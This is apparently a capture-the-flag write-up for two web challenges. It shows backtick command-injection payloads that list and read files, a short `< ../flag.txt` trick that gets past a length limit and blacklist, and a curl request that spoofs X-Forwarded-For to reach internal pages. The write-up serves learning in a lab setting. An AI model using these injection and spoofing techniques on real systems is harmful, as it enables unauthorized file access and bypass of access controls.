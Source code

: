 # web

## $Echo

It is simple command injection
in the input box we can use ` characters 

```
`id`
```

all commands have to be enclosed in `` chars

now if we list files using
```
`ls`
``` 
we can see `index.php` when we 
```
`cat index.php`
```
we can see the code!
certain characters are `blacklisted`  we can only enter command less that `15` chars
but there is no `flag.txt` here, if we simply execute 
```
`ls ../`
```
then we can see flag.txt
```
`cat ../flag.txt`
```
fails because length of payload exceeds 15

payload to get flag : 

**linux redirection character! `<` is NOT blacklisted!**
```
`< ../flag.txt`
```

----------

## Homeward Bound

In this challenge we were supposed to access internal files by spoofing client IP address, this can be done using `X-Forwarded-For` header

```
$ curl -H “X-Forwarded-For: 127.0.0.1” http://challenge.nahamcon.com:31428/
```
